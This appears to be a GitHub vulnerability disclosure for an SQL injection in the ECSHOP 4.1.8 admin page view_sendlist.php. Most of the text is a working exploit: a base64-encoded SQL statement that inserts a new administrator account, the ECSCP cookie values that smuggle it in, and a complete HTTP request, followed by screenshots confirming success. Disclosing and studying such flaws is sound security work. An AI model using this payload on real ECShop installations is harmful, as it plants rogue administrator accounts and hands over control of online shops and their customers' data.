 # ecshop

ECSHOP, 4.1.8, SQL Injection

Vulnerabilities Reproduction:
Log in to the backend, visit the view_ sendlist.php, and then capture the packet.

Enter the SQL statement to be executed, and then convert it into base64 encoding. Here we take adding the test administrator user as an example.
   
<img width="415" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/235fd585-510c-48a4-b749-163d3765b972">

Here is the base64 encoding.
aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=

Get the value of ECSCP[lastfilterfile], here is F8F2F4EC.

Send the request package, and replace the previous cookie, or  just add the following string to the original cookie.
act=query&uselastfilter=1
ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Successfully executed SQL statement.

GET /ECShop_V4.1.13/ECShop/source/ecshop/admin/view_sendlist.php?act=query&uselastfilter=1 HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: loginNum=4; ECS_LastCheckOrder=Wed%2C%2011%20Jan%202023%2014%3A38%3A48%20GMT; ECS[visit_times]=13; Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1672820048; PHPSESSID=c80bf1de9332905dbf330e4fc2929cc4; JSESSIONID=7BAE8239C62E8C6B4AC401F85773ACED; ECSCP_ID=d9c053c22fb93a4801ea199b40025da9ec8286d3;ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

<img width="484" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/165d612d-27e7-4d54-9ac8-0e4cac2e9b68">

<img width="489" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/43846d1c-9192-415f-a0fa-9335f730d9e2">


4. Refresh the database and find that the user is successfully added, or the logged-in user finds that he can also log in successfully.
   <img width="752" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/f4c894ca-e513-4499-b0a1-ee64c01dac15">

 

